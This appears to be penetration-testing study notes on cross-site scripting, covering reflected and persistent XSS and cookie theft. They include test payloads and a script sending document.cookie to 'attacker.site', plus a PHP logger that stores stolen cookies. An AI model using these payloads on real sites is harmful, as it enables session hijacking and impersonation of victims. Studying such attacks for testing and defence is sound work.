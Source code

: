   Actors of a XSS attack:

| Vulnerable Website | User/Visitor \(Victim\) | Penetration Tester |
| :--- | :--- | :--- |
| Inputs should always be validated server side | Code executed/rendered by the browser of the visiting users | Making their browsers load malicous content |
| Never ever trust user input | XSS vulnerabilities have low priority for developers, as it can be really hard for a victim to realize that an attack is in progress | Performing operations on their behalf, like buying a product or changing a password |
|  |  | Stealing the session cookies, thus being able to impersonate them on the vulnerable site |

* Reflection Point: When a search parameter is submitted through a form and gets displayed on the output in an XSS attack
* After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page
* Test XSS: `<script>alert('XSS')</script>`

## XSS Types

**Reflected**

* When the malicious payload is carried inside the request that browser of the victim sends to the vulnerable website
* When users click on the link , the users trigger the attack
* `http://victim.site/search.php?find=<payload>`
* Called 'reflected' because an input field of the HTTP request sent by the browser gets immediately reflected to the output page
* Google Chrome has a reflected XSS filter built in to avoid this attack, but only trivial ones

**Persistent**

* Occur when the payload is sent to the vulnerable web server and then stored.
* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload
* The malicious code gets delivered each and every time a web browser hits the "injected" web page
* A single attack can exploit multiple web applications
* The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users
* Element such as comments, user profiles, and forum posts are potential vector for XSS attacks

**DOM Based**

Cookie Stealing via XSS

* When `HttpOnly` flag is disabled, cookies can be stolen
* `<script>alert(document.cookie)</script>`
* With the following code, you can send cookies content to an attacker-controlled site:

```javascript
<script>
  var i = new Image();
  i.src = "http://attacker.site/log.php?q="+escape(document.cookie);
</script>
```

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
flocse($fp);
?>
```
